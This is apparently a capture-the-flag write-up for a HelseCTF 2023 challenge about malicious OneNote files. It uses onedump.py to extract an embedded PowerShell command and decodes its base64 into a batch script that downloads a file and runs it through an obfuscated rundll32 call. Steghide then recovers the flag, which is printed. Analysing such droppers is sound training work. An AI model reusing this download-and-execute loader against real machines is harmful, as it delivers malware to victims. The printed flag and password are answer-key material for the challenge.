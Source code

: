 # OneNote To Rule Them All (481)

Onenotefiler har eksplodert i bruk (for skadevarelevering) siste året. Her kommer en enkel liten oppgave for å se hvordan dette fungerer. Anbefaler onedump.py (https://github.com/DidierStevens/Beta/blob/master/onedump.py), men det finnes etterhvert en del andre verktøy. I tillegg kan man løse slike maldocs med OneNote, eller andre verktøy.

Som alle maldocs kommer denne i en zipfil for å tilfredstille AV. Passord: helsectf.

# Writeup

Using the recommended tool:

```
$ python3 onedump.py OneNoteToRuleThemAll.one
File: OneNoteToRuleThemAll.one
 1: 0x00002a40 .PNG 89504e47 0x00012ac5 734ba03175ebc8b8e3ef57bc3ddc9d8e
 2: 0x000167e8 powe 706f7765 0x00000190 caf17ec8d6d574f29693b3dc2ac4f6cd
 3: 0x000169b0 .PNG 89504e47 0x0000054a c2bf462c1311a92660999498f29394bd
 4: 0x00018020 GIF8 47494638 0x00002df5 b035f23c68cc9673e604fe5472f223d2
 5: 0x00023d60 powe 706f7765 0x000001dd a9c2c9e6124219aaa0588c226316a011
 6: 0x00023ff8 powe 706f7765 0x000001dd a9c2c9e6124219aaa0588c226316a011
 7: 0x00024210 .PNG 89504e47 0x00000375 04734c91e7c2c2b29c12ddfdd9f913e2
 8: 0x0002dda0 .PNG 89504e47 0x00000375 04734c91e7c2c2b29c12ddfdd9f913e2
 ```

 Starting to read the powershell scripts there using `onedump <file> -s<number>`. Not finding anything helsereleated until number 5.

```
$ python3 onedump.py OneNoteToRuleThemAll.one -s5 -d 
powershell.exe [System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String('CkBlY2hvIG9mZgoKcG93ZXJzaGVsbCBJbnZva2UtV2ViUmVxdWVzdCAtVVJJIGh0dHBzOi8vaGVsc2VjdGYyMDIzLTZhYzRlMWM2ZDg4NTVjMWJkOTZhLTBhMTA4YTJlN2FhNy5jaGFscy5pby8yZTA0ZDBlNzMzNDAxOTBiNDBmM2UzNzg4MmUxZDlkOC5kbGwgLU91dEZpbGUgQzpccHJvZ3JhbWRhdGFcYmlnLmpwZwpjYWxsIHJ1JTFsMzIgQzpccHJvZ3JhbWRhdGFcYmlnLmpwZyxEbGxSZWdpc3RlclNlcnZlcgoKZXhpdAo=\')) > C:\ProgramData\in.cmd&&start /min C:\ProgramData\in.cmd ndl
```
Decode the base64 gives this:
```
@echo off

powershell Invoke-WebRequest -URI https://helsectf2023-6ac4e1c6d8855c1bd96a-0a108a2e7aa7.chals.io/2e04d0e73340190b40f3e37882e1d9d8.dll -OutFile C:\programdata\big.jpg
call ru%1l32 C:\programdata\big.jpg,DllRegisterServer

exit
```
Downloading that file shows that it is actually a JPEG
```
$ file 2e04d0e73340190b40f3e37882e1d9d8.dll
2e04d0e73340190b40f3e37882e1d9d8.dll: JPEG image data, JFIF standard 1.01, resolution (DPI), density 144x144, segment length 16, baseline, precision 8, 3026x216, components 3
```

![image](2e04d0e73340190b40f3e37882e1d9d8.jpg)

Using steghide on the image 

```
$ steghide extract -p "lett_oppvarming" -sf 2e04d0e73340190b40f3e37882e1d9d8.jpg

wrote extracted data to "flag.txt".
```

# Flag

```
helsectf{And_so_it_begins_5515fd278619a55933242123111a0745}
```